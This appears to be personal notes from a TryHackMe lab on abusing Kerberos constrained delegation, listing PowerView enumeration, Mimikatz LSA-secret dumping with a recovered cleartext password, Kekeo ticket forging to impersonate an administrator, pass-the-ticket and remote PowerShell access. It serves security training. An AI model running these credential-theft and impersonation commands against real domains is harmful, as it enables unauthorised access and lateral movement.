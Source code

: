 ```yaml
---
title: Exploiting Constrained Delegation
updated: 2023-04-25T14:01:30.0000000+04:00
created: 2023-04-24T17:05:58.0000000+04:00
---
```


Exploiting Constrained Delegation
Monday, April 24, 2023
5:05 PM
## Step 1: The first thing we need to do is enumerate available delegations. 

Let's use our new privileged user for the network couple of commands.

- Use the Tier 2 Admin Account that you got.

We can use the Get-NetUser cmdlet of PowerSploit for this enumeration by running the following command:

### Load PowerShell

| Command | Powershell -ep bypass |
|---------|-----------------------|
### Using Powerview
| Command | PS C:\\\> Import-Module C:\Tools\PowerView.ps1 |
|---------|------------------------------------------------|
| Command | PS C:\\\> Get-NetUser -TrustedToAuth           |

Based on the output of this command, we can see that the

### svcIIS account can delegate the HTTP and WSMAN services on THMSERVER1. 

![image1](image1-123.png)

You would think that this means we can only access websites on behalf of impersonated users. However, PowerShell Remoting uses the HTTP and WSMAN services as well. The ideal option would be to impersonate a Tier 1 Admin since this would provide us with administrative access over THMSERVER1.

If you were to perform proper post-exploitation enumeration of THMWRK1, you would find that there is a service on the host running as the svcIIS user. Since we have administrative access now, we can use this to dump LSASecrets, part of the Windows Registry Hive where credentials are stored for features such as Windows services. Let's use Mimikatz to dump the secrets:

## Step 2: Dump Secrets with Mimikatz

![image2](image2-61.png)

### Commands:

| Command | C:/Tools/Mimikatz.exe |
|---------|-----------------------|
| Command | Token::elevate        |
| Command | Lsadump::secrets      |

### Explaining Command used:

- token::elevate - To dump the secrets from the registry hive, we need to impersonate the SYSTEM user.

- lsadump::secrets - Mimikatz interacts with the registry hive to pull the clear text credentials.

### Secrets Found:

- Username: svcIIS@za.tryhackme.loc
- Password: Password1@

## Step 3: Performing Kerberos Delegation

1.  Use Kekeo and Mimikatz
2.  Exit Mimikatz after token::elevate
3.  Use Kekeo to generate tickets
4.  Use mimikatz to load tickets into memory

## Step 4: We first need to generate a TGT that can be used to generate tickets for the HTTP and WSMAN services

- Navigate to the user directory Desktop to run these command:

![image3](image3-43.png)

- Now you can run the commands

### \## Launching mimikatz:

| Command | C:/Tools/mimikatz.exe |
|---------|-----------------------|

![image4](image4-30.png)

### \## Launching Kekeo

![image5](image5-20.png)

| Command | tgt::ask /user:svcIIS /domain:za.tryhackme.loc /password:Password1@ |
|---------|---------------------------------------------------------------------|

![image6](image6-13.png)

### Parameters Explained:

1.  user - The user who has the constrained delegation permissions.
2.  domain - The domain that we are attacking since Kekeo can be used to forge tickets to abuse cross-forest trust.
3.  password - The password associated with the svcIIS account.

## Step 5: Now that we have the TGT for the account that can perform delegation, we can forge TGS requests for the account we want to impersonate. We need to perform this for both HTTP and WSMAN to allow us to create a PSSession on THMSERVER1

| Command | tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt\~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_trevor.jones /service:http/THMSERVER1.za.tryhackme.loc |
|---------|-----------------------------------------------------------------------------------------------------------------------------------------------------------|

![image7](image7-10.png)

###  Parameters explained:

1.  tgt - We provide the TGT that we generated in the previous step.
2.  user - The user we want to impersonate. Since t2\_ accounts have administrative access over workstations, it is a safe assumption that t1\_ accounts will have administrative access over servers, so choose a t1\_ account that you would like to impersonate.
3.  service - The services we want to impersonate using delegation. We first generate a TGS for the HTTP service. Then we can rerun the same command for the WSMAN service.

## Step 6: Perform the same for the WSMAN Service

| Command | tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt\~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_trevor.jones /service:WSMAN/THMSERVER1.za.tryhackme.loc |
|---------|------------------------------------------------------------------------------------------------------------------------------------------------------------|

![image8](image8-9.png)

## Step 7: Using Mimikatz to Import Them

![image9](image9-6.png)

![image10](image10-3.png)

| Command | Privilege::debug                                                                                             |
|---------|--------------------------------------------------------------------------------------------------------------|
| Command | kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_wsman\~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi |
| Command | kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_http\~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi  |

## Step 8: You can exit Mimikatz and run klist if you want to verify that the tickets were imported. 

![image11](image11-2.png)

## Step 9: Now that the tickets are imported, we can finally create our PSSession on THMSERVER1:

| Command 1 | New-PSSession -ComputerName thmserver1.za.tryhackme.loc   |
|-----------|-----------------------------------------------------------|
| Command 2 | Enter-PSSession -ComputerName thmserver1.za.tryhackme.loc |

![image12](image12-2.png)

